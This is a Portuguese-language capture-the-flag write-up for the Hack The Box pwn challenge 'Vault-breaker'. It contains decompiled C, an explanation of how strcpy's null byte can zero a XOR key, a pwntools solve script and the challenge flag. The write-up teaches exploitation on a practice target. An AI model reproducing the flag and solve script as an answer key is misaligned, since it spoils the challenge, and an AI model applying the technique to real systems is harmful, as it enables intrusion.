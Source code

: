 # WriteUp: Vault-breaker

## Descrição do Desafio:
**Autor**: [w3th4nds](https://app.hackthebox.com/users/70668) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/333) \
**Categoria**: Pwn \
**Dificuldade**: Muito fácil \
**Data**: 2022 \
**Descrição**:
> Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. Something is hidden inside it, can you find out the way it works and bring it to Bonnie?

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Como o desafio não fornece o código-fonte, o primeiro passo é executar o programa para vermos seu comportamento normal. Executando-o, percebemos que o programa criptografa alguma coisa, com uma chave de valor desconhecido, e devolve o resultado para nós.

Como isso é insuficiente para determinar o que está acontecendo de fato, devemos analisar o assembly do executável. Olhando pelo **Ghidra**, podemos identificar duas funções importantes, a `new_key_gen()` e a `secure_password()`. A primeira é chamada toda vez que a opção 1 for selecionada, e a segunda é chamada quando a opção 2 for selecionada.

{% hint style="info" %}

**Nota:** O programa só encerra a execução se qualquer número, com exceção do 1, for digitado.

{% endhint %}

{% code title="new_key_gen" overflow="wrap" lineNumbers="true" %}

```c
void new_key_gen(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  ulong local_60;
  ulong local_58;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0;
  local_58 = 0x22;
  __stream = fopen("/dev/urandom","rb");
  if (__stream == (FILE *)0x0) {
    fprintf(stdout,"\n%sError opening /dev/urandom, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  while (0x1f < local_58) {
    printf("\n[*] Length of new password (0-%d): ",0x1f);
    local_58 = read_num();
  }
  memset(local_48,0,0x20);
  iVar1 = fileno(__stream);
  read(iVar1,local_48,local_58);
  for (; local_60 < local_58; local_60 = local_60 + 1) {
    while (local_48[local_60] == '\0') {
      iVar1 = fileno(__stream);
      read(iVar1,local_48 + local_60,1);
    }
  }
  strcpy(random_key,local_48);
  fclose(__stream);
  printf("\n%s[+] New key has been genereated successfully!\n%s",&DAT_00103142,&DAT_001012f8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

{% endcode %}

{% code title="secure_password" overflow="wrap" lineNumbers="true" %}

```c
void secure_password(void)

{
  char *__buf;
  int __fd;
  ulong uVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char acStack_88 [24];
  undefined8 uStack_70;
  int local_68;
  int local_64;
  char *local_60;
  undefined8 local_58;
  char *local_50;
  FILE *local_48;
  undefined8 local_40;
  
  local_40 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  uStack_70 = 0x100c26;
  puts("\x1b[1;34m");
  uStack_70 = 0x100c4c;
  printf(&DAT_00101308,&DAT_001012f8,&DAT_00101300,&DAT_001012f8);
  local_60 = &DAT_00101330;
  local_64 = 0x17;
  local_58 = 0x16;
  local_50 = acStack_88;
  memset(acStack_88,0,0x17);
  local_48 = fopen("flag.txt","rb");
  __buf = local_50;
  if (local_48 == (FILE *)0x0) {
    fprintf(stderr,"\n%s[-] Error opening flag.txt, contact an Administrator..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  sVar2 = (size_t)local_64;
  __fd = fileno(local_48);
  read(__fd,__buf,sVar2);
  fclose(local_48);
  puts(local_60);
  fwrite("\nMaster password for Vault: ",1,0x1c,stdout);
  local_68 = 0;
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
  puts("\n");
                    /* WARNING: Subroutine does not return */
  exit(0x1b39);
}
```

{% endcode %}

Analisando as funções, podemos perceber o seguinte:
- Podemos chamar a função `new_key_gen()` quantas vezes nós quisermos.
- A *key* é gerada através do arquivo `/dev/urandom`, e seu tamanho é determinado pelo usuário.
- A *key* é salva na variável `random_key`, que consegue armazenar no máximo 32 caracteres.
- A **flag** é criptografada por um xor entre os caracteres dela com os caracteres da *key* de mesmo índice.

### 2. Exploit
A solução é bem simples, a *key* gerada é salva na variável `random_key`, que desde o início já possuí um valor aleatório, por meio da função `strcpy()`. Essa função, além de copiar o valor da *key* ela também copia os *byte* nulo presente no final de toda *string*.

Com isso, podemos ir zerando o valor da `random_key`, começando com uma *key* de tamanho máximo e indo até o valor 0. Dessa forma, o *byte* nulo presente no final de cada *key* gerada é salvo nos índices [31] a [0] da variável.

{% hint style="warning" %}

**Importante:** A variável deve ser zerada do final até o início, pois se for do início até o final, o *byte* zerado anteriormente é sobrescrevido por um novo valor de *key*.

{% endhint %}

Após zerar a variável, basta selecionar a opção 2, que a **flag** será mostrada, pois qualquer operação xor entre um valor e 0 é o próprio valor.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./vault-breaker")
p = remote("ip", porta)
#p = process()

for i in range(31, -1, -1):
    p.recvuntil(b"[+]")
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"(0-31): ", hex(i).encode())

p.sendlineafter(b"> ", b"2")
p.recvuntil(b"Vault: ")
print(p.recvline().decode())
```

{% endcode %}

### Flag
`HTB{d4nz4_kudur0r0r0}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)